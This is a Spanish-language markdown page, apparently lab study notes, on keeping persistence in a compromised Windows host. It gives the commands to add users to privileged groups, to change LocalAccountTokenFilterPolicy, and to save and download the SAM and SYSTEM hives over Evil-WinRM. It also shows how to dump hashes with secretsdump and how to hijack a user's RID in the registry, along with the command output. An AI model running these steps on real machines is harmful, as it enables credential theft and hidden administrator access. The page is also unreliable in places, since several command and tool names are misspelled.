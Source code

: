 # Introducción

Despues de conseguir meternos dentro de la red interna de un target, tenemos que estar seguros de no peder acceso antes de conseguir lo que queremos. Entablar una persistencia es una de las primeras cosas que los atacantes deben saber cuando ganas acceso en la red.

En términos simples, la persistencia se refiere a cear alternativas para ganar acceso al host sin necesidad de volver a la fase de explotación de nuevo.

# Manipulación con pocos privilegios

Teniendo las credenciales del administrador es muy simple tener persistencia en la máquina. Sin embargo esto no hace que el blue team no te detecte, pero podemos manipular usuarios desprivilegiados, cosa que los administradores no suelen monitorizar.

## Asignar miembros de usuario

Asumimos que ya hemos dumpeado las contraseñas y las hemos crackeado

Directamente nosotros nos movemos de un usuario desprivilegiado a privilegios de administrador metiendolo al grupo de Administradores

```
net localgroup administrator usuario /add
```

Dandonos acceso por RDP o otro tipo de servicio.

Esto la verdad que es bastante sospechoso, podemos usar otros grupos como "operadores de backup". Este grupo no tiene permisos de administrador pero puede leer/escribir registros de código del sistema. 

```
net localgroup "backup operators" usuario2 /add
```

Como usuario desprivilegiado, no podemos hacer RDP o WinRM si no lo añadimos a los usuarios de "RDP" 

```
net localgroup "Remote Management Userss" usuario3 /add
```

Si nosotros queremos conectarnos desde nuestra máquina atacante y estamos en el grupo anteriormente dicho, no tenemos acceso a todos los archivos pero podemos hacer cosas chulas

```
vil-winrm -i 10.10.127.131 -u thmuser1 -p Password321

*Evil-WinRM* PS C:\> whoami /groups

GROUP INFORMATION
-----------------

Group Name                             Type             SID          Attributes
====================================== ================ ============ ==================================================
Everyone                               Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                          Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Backup Operators               Alias            S-1-5-32-551 Group used for deny only
BUILTIN\Remote Management Users        Alias            S-1-5-32-580 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                   Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users       Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization         Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account             Well-known group S-1-5-113    Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication       Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level Label            S-1-16-8192
```

Si queremos dar privilegios de administrador a un usuario podemos cambiar registros

```
reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /t REG_DWORD /v LocalAccountTokenFilterPolicy /d 1
```

Una vez que tenemos ready la backdoor podemos entablar conexiones con winrmm y mirar usuarios o grupos 

```
evil-winrm -i ip -u usuario -p contraseña
```

Podemos hacer backup del archivo SYSTEM y descargarlo

```
*Evil-WinRM* PS C:\> reg save hklm\system system.bak
    The operation completed successfully.

*Evil-WinRM* PS C:\> reg save hklm\sam sam.bak
    The operation completed successfully.

*Evil-WinRM* PS C:\> download system.bak
    Info: Download successful!

*Evil-WinRM* PS C:\> download sam.bak
    Info: Download successful!
```

También podemos dumpear hashes de contraseñas con "secretsdunmp.py" 

```
python3.9 /opt/impacket/examples/secretsdump.py -sam sam.bak -system system.bak LOCAL
```

## Privilegios especiales y Descriptores de seguridad

Podría dar el mismo resultado en vez de meter a alguien en el grupo modificar los usuario del mismo.

![image](https://github.com/user-attachments/assets/4fd33a70-00f1-4f12-b9cb-121d1fa22f15)

## RID Hijacking

Otro metodo de ganar privilegios de administrador

Cuando creamos un usuario se crea un RID asignado al mismo. Es simplemente un numero identificativo que reperesnta al usuario. CUando se loggea se coge el RID y se asocia al registro. 

Los administradores por defecto tienen asignado un RID = 500 y los usuarios regulares tienen RID >= 1000

```
wmic useraccount get name,sid

Name                SID
Administrator       S-1-5-21-1966530601-3185510712-10604624-500
DefaultAccount      S-1-5-21-1966530601-3185510712-10604624-503
Guest               S-1-5-21-1966530601-3185510712-10604624-501
thmuser1            S-1-5-21-1966530601-3185510712-10604624-1008
thmuser2            S-1-5-21-1966530601-3185510712-10604624-1009
thmuser3            S-1-5-21-1966530601-3185510712-10604624-1010
```

Deberemos acceder al SAM usando "Regedit"! es es un lugar restringido solo para cuentas de sistema como el administrador tenemos en las parrot C:\tools\pstools

```
PsExec64.exe -i -s regedit
```

Desde Regedit, podemos irnos a HKLM\SAM\SAM\Domains\Account\Users\ donde estan las key de cada usuario. Si quermeos modificar el usuario3 por ejemplo, deberemos buscarle el RID en hexadecimal (1010 = 0x3F2) correspondiente a un valor "F"

![image](https://github.com/user-attachments/assets/b498adc9-6a69-445d-8b12-7bf4cc852d73)

Y lo cambiariamos por el de administrador (500 = 0x01F4)

![image](https://github.com/user-attachments/assets/b44a4f51-605a-4903-b997-f58315f937e2)




